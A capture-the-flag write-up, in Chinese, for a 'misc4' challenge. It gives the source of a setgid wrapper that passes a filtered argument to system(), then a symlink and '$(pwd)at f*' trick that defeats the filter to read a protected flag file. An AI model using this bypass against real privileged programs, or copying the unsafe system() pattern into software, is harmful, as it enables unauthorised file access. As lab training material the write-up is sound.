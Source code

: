 ## misc4
### sol
連上ssh後可以發現三個file
```
misc4@quiz2:~$ ls -l
total 20
-r--r----- 1 root misc4x   32 Jun 24 16:01 flag
-r-xr-s--x 1 root misc4x 9160 Jun 24 17:02 shell
-r--r--r-- 1 root misc4x  686 Jun 24 17:02 shell.c
```
而shell有setgid，source code為：
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "=")!=0;
	r += strstr(cmd, "PATH")!=0;
	r += strstr(cmd, "export")!=0;
	r += strstr(cmd, "/")!=0;
	r += strstr(cmd, "\\")!=0;
	r += strstr(cmd, "`")!=0;
	r += strstr(cmd, "flag")!=0;
	return r;
}

extern char** environ;
void delete_env(){
	char** p;
	for(p=environ; *p; p++) memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
	setregid(getegid(), -1);
	if(argc < 2) { return 0; }
	delete_env();
	putenv("PATH=/this_is_not_a_valid_path");
	if(filter(argv[1])) return 0;
	printf("%s\n", argv[1]);
	system( argv[1] );
	return 0;
}
```
執行後會先把environment全部清除，接著設定一個invalid的PATH，而傳給shell的參數中不能包含`=`, `PATH`,`EXPORT`, `/`, `\\`, `flag`等字樣，推測是要利用shell去cat出flag的內容。
http://www.jianshu.com/p/c70e50710804 裡面末尾提供了一種方法，主要是利用pwd可以印出當前目錄，並且利用*來繞開flag名稱的限制，因此最後解法為
```shell
$ mkdir -p /tmp/test
$ cd /tmp/test
$ mkdir c
$ ln -s /bin/cat .
$ cd c
$ ln -s ~/flag .
$ ~/shell "\$(pwd)at f*"
```
